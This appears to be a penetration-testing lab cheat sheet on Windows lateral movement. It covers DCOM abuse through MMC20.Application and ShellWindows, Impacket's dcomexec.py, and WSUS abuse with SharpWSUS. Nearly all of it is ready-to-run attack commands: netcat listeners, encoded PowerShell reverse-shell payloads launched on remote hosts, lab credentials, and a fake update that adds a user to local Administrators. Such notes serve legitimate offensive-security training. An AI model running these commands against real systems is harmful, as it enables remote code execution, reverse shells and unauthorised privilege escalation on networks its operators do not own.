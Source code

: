 ## DCOM 

```
$ nc -nlvp 8001

$ xfreerdp /u:Helen /p:'RedRiot88' /d:inlanefreight.local /v:10.129.229.244 /dynamic-resolution /drive:.,linux 

PS C:\Tools\> $mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","172.20.0.52")); 

View.ExecuteShellCommand( _
  ByVal Command As String, _
  ByVal Directory As String, _
  ByVal Parameters As String, _
  ByVal WindowState As String _
)

PS C:\Tools\> $mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,"-e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==",0) 

```

In order to use it, we must complete all parameters. The first is the Command to execute, which will be powershell.exe, next we set the Directory to $null, 3rd we add PowerShell's parameters with our reverse shell payload, we will use a payload from https://www.revshells.com, and finally we set the WindowState to 0 so it will execute normally: 


```

PS C:\Tools> Get-ChildItem -Path 'HKLM:\SOFTWARE\Classes\CLSID' | ForEach-Object{Get-ItemProperty -Path $_.PSPath | Where-Object {$_.'(default)' -eq 'ShellWindows'} | Select-Object -ExpandProperty PSChildName} 

PS C:\Tools> $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","SRV02")) 

PS C:\Tools\> $shell = [activator]::CreateInstance([type]::GetTypeFromCLSID("9BA05972-F6A8-11CF-A442-00A0C90A8F39","172.20.0.52")) 

$ nc -lnvp 8080 

PS C:\Tools\> $shell[0].Document.Application.ShellExecute("cmd.exe","/c powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==","C:\Windows\System32",$null,0) 

```

After that, we can execute any command using the ShellExecute method of the Document.Application property. We will use cmd.exe to execute our payload. We will be using a PowerShell reverse shell payload from revshells.com: 


### Linux 

```

$ python3 dcomexec.py -object MMC20 INLANEFREIGHT/Josias:Jonny25@172.20.0.52 "powershell -e JABjAGwAaQBlAG...SNIP...AbwBzAGUAKAApAA==" -silentcommand 

$ nc -lnvp 8001 

```


### WSUS 

```

c:\Tools> .\SharpWSUS.exe create /payload:"C:\Tools\sysinternals\PSExec64.exe" /args:"-accepteula -s -d cmd.exe /c net localgroup Administrators filiplain /add" /title:"NewAccountUpdate" 

c:\Tools> .\SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.inlanefreight.local /groupname:"FastUpdates" 

c:\Tools> .\SharpWSUS.exe inspect 

PS C:\Tools> Get-WinEvent -LogName Application | Where-Object { $_.Id -eq 364 } |fl 

PS C:\Tools> copy C:\Tools\sysinternals\PSExec64.exe C:\WSUS\WsusContent\02\0098C79E1404B4399BF0E686D88DBF052269A302.exe 

c:\Tools> .\SharpWSUS.exe check /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv01.inlanefreight.local 

c:\Tools> net localgroup administrators 

c:\Tools> .\SharpWSUS.exe delete /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv02.inlanefreight.local 

```

- SharWSUS compiled [binary](https://github.com/twisted007/Compiled_Windows_Binaries) 
